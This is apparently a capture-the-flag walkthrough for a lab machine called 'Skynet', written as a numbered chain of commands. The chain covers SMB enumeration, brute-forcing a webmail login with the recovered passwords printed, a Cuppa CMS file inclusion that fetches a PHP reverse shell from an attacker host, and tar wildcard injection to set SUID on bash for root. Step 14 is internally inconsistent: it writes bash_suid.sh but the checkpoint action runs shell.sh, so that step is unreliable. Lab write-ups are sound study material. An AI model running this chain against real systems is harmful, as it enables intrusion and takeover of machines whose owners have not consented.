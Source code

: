 # Skynet

### **Tasks**:

1. **Deploy and compromise the vulnerable machine!**:
   1. Do Usual nmap scan with `nmap -sC -sV -T5 ip` - Ports 22,80,110,139,143,445 open
   2. Use` smbclient -L \\\\ip\\` to list shares - anonymous,milesdyson unique
   3. Login to anonymous share and download log1.txt & attention.txt - log file contains potential username or passwords. attention.txt(written by Miles Dyson) is sort of message that tells all users to change passwords due to some malicious activity. `get log1.txt` & `get attention.txt` to download the files.
   4. Directory Bruteforce with `gobuster dir --wordlist=/usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://ip/" --threads=100` reveals /squirrelmail which is interesting.
   5. From attention.txt as well as smb share list we can assume there is a user called milesdyson, log1.txt might be potential password, we can use this to bruteforce login page at /squirrelmail. Luckily the first password in log1.txt worked !!! \[milesdyson:cyborg007haloterminator]
   6. In the email, there is samba password for user milesdyson - )s{A&2Z=F^n\_E.B\`
   7. Connect to milesdyson share using Username as milesdyson - `smbclient -U milesdyson \\\\10.10.179.35\\milesdyson` , `get important.txt` from notes directory - It gives information that some CMS exists at /45kra24zxs28v3yd. Doing directory bruteforce on /45kra24zxs28v3yd reveals /administrator endpoint exists inside CMS.
   8. Visiting /45kra24zxs28v3yd/administrator reveals it's Cuppa CMS, Use `searchsploit cuppa` & `searchsploit -x 25971` to know that there is Remote File Inclusion Vulnerability at /alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt endpoint.
   9. Serve Pentest-Money PHP Reverse shell in python http server, start netcat using `nc -nlvp 1234` and open http://victimip/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://attackerip:8080/php-reverse-shell.php to get reverse shell.
   10. Run `python -c 'import pty; pty.spawn("/bin/bash")'` to upgrade to interactive shell from default netcat terminal.
   11. `cat /home/milesdyson/user.txt` and submit user flag.
   12. `cat /etc/crontab`, There is some cron job executing every minute at /home/milesdyson/backups/backup.sh.
   13. By looking at the backup.sh we can tell that it's taking backup of files at /var/www/html every minute using `tar cf /home/milesdyson/backups/backup.tgz *`
   14. This is a wildcard vulnerability , `cd /var/www/html`, `echo "chmod 4777 /bin/bash" > bash_suid.sh` (Set SUID bit of bash when executed by root), `echo "" > "--checkpoint-action=exec=sh shell.sh"`, `echo "" > --checkpoint=1`.
   15. After 1 min when new backup task is generated, type `/bin/bash -p` to get root.
   16. `cat /root/root.txt` to get root flag and submit. &#x20;

